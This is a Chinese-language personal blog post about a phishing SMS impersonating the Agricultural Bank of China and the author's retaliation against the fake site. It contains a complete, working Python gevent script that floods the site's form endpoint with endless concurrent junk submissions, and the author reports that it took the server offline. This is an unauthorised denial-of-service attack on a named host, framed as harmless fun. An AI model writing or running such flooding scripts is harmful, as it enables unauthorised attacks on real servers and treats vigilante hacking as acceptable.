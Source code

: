 ```yaml
--- 
layout: post
categories: 安全 编程
title: 记一次 DoS 诈骗网站的经历
--- 
```


题海中激战，正当不亦乐乎时，手机响了。低头一看，是 95599 的短信：

> 尊敬的农行用户，您的账户积分累计现可兑换价值 1024 元现金大礼包！请手机登陆 [wap.abchyd.com](http://wap.abchyd.com) 进行领取！【农业银行】

1024 元？哼！这个数还挺整，但一看就是诈骗短信：哪有银行的域名长得和天书一样？更何况，我又没有农行的账户。

正待删除时，一个念头划过脑海，指尖悬停在屏幕上方。

突然想起昨天在 Freebuf 上看到的一篇文章，说是一个黑帽把臭名昭著的“10086 诈骗”给调戏了一番，在其数据库里填满了垃圾。Freebuf 上许多黑技术我从来都是可望而不可即，唯独这个比较简单——不就是写个脚本嘛，几分钟的事。既然他骗人骗到我这里来了，何不好好调戏一下呢？

果断打开电脑，打开 Chrome，输入网址，映入眼帘的是一个表单（网站已被黑掉因此就没有图了，好吧我错了），要求用户填写 银行卡、密码、手机号还有一个逼格很高的验证码。

F12 分析，发现对各个字段的校验仅仅局限于长度的检查，连格式检查都没有。至于验证码，随便填写四个数字就可以通过了（真是弱爆了，好吗！）。表单提交后跳转到一个有菊花加载圈的页面——说是“稍等，切勿关闭页面”，但其实这个页面并不会跳转，也不会有其他的操作，只有那个菊花一直在转。扫一眼地址栏，发现是`asp`结尾——这又给了我不小的鼓励（这里并没有黑微软的意思， ASP 是十年前的产物，放在现在可以说是弱的不行了）。

该怎么调戏呢？一个想法飞快地在脑海中产生——对了，就用高并发的垃圾数据拖爆它的数据库吧。这类钓鱼网站通常都是 IIS 6.0 + ASP + SQL SERVER，并且还是单机服务器，并发度一高机器很容易就垮了。

简单地谢了一个脚本：

```python
#! /usr/bin/python

import gevent.monkey
gevent.monkey.patch_all()
import gevent
import urllib2, urllib
from uuid import uuid1

def fuck():
    id = str(uuid1())[:16]
    print 'fucking', id
    try:
        urllib2.urlopen('http://www.abchyd.com/add_1.asp', urllib.urlencode({
            'logonCardNum': id,
            'netType': '111111',
            'tel': '12345678900',
            'randomId': '1234'
        }))
    except:
        pass

    print 'fucking', id, 'ok'

while True:
    gevent.joinall([gevent.spawn(fuck) for _ in range(100)])

```

这里用 `gevent` 将 Socket 由阻塞型改装为协程型，以提高请求的并发度。

接着，关掉所有的图形界面，只开一个终端（为了节省内存），运行 `./fuckit.py`。哈哈哈，受死吧！

用平板再次打开该网址（电脑已经跑不起浏览器了），可以发现网站已经明显慢了下来，时不时还会有 500 错误。

两个小时后。

当我再次访问网站时，它已经完全当机了。用`nmap`扫了一遍，也没有端口活着了。一台邪恶的服务器就这样被干掉了。

但我知道，这样的服务器，在世界上还存在着许多许多。曾经有段时间，不断遇到域名为 www.10086xxx.com 的诈骗网站。常常是一个域名被封了，另一个域名便冒出来，可见诈骗者拥有海量的资源。

这次的攻击只是一次游戏，一次尝试，得以成功只是因为对方太弱了。

真正的网络攻防战，远不止如此。